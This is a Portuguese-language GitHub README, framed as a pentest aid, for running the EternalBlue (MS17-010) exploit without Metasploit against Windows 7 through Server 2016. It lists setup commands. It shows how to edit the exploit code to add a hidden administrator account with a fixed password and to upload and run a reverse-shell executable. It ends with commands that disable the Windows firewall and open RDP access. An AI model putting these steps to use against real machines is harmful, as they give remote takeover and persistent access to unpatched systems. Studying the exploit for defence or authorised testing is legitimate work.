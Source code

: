 # Exploiting Windows 7, 8.1, 2008 R2, 2012 R2, 2016 R2, 2016 Server etc Com Eternalblue SEM METASPLOIT (MS17-010) (CVE 2017-0144)

Script que explora manualmente a vulnerabilidade MS17-010 (CVE 2017-0144 ) e funciona nos sistemas: Windows 7 / 8.1 / 2008 R2 /2012 R2 / 2016 R2 / 2016 Server

**Exploit tirado do exploit-db - [42315](https://www.exploit-db.com/exploits/42315])**

**Testado no Windows 2016 Server**

Criei esse respositório pois quando precisei, tive dificuldade para executar o exploit (baixar depedências) e entender o código, sendo assim decidi criar esse repositório para facilitar o pentest caso alguém se depare com o mesmo problema que eu

## Preparando o ambiente para executar o exploit

Necessário python2 (python2.7) 
```bash
$ sudo apt update
$ sudo apt upgrade
$ sudo apt install python2.7
```
Necessário pip2
```bash
$ curl https://bootstrap.pypa.io/pip/2.7/get-pip.py -o get-pip.py;
$ python2 get-pip.py;
$ rm get-pip.py;
```
Baixando pacotes necessários
```bash
$ pip2 install --upgrade setuptools;
$ pip2 install impacket==0.9.22
```

## Alterações no exploit
A lógica é usar a função **smb_send_file** para enviar um executável de shell reversa, e a função **service_exec** para executar o código. 
Porém devido ao Windows Defender não da para realizar isso diretamente. 

*A função **service_exec** (linha 923) é onde se localiza o comando que será executado como é mostrado abaixo*
*A função **smb_send_file** (linha 922) envia um arquivo local para a máquina alvo*


- Alterações para criar um usuário com acesso de Autoridade
```python 
service_exec(conn, r'cmd /c net user pentester Pentester123 /add') # linha - 923
# criando o usuário 'pentester' com a senha 'Pentester123'
```
```python 
service_exec(conn, r'cmd /c net localgroup administrators pentester /add') # linha - 923
# Adicionando o usuário 'pentester' ao grupo de administradores
```
- Alteração para enviar um arquivo local para a máquina alvo
```shell
smb_send_file(smbConn, '/path_to_your_filel/eternal-blue.exe', 'C', '/eternal-blue.exe') # Arquivo é inserido na raiz (c:\) neste exemplo
```
 
Caso você queira tentar ganhar uma shell reversa vou deixar os comandos necessários abaixo

## Executando o Exploit
```bash
$ python2.7 exploit.py <target ip>
```

## Comandos úteis do Windows para pentest
- Comando para desligar o Firewall do Windows
```shell
netsh advfirewall set currentprofile state off
```
- Comando para habilitar a porta 3389 no firewall
```shell
netsh advfirewall firewall add rule name="rpd" protocol=TCP dir=in localport=3389 action=allow
```
- Comando para habilitar o RDP no Windows
```shell
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```
- Comando para desabilitar o RDP no Windows
```shell
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 1 /f
```
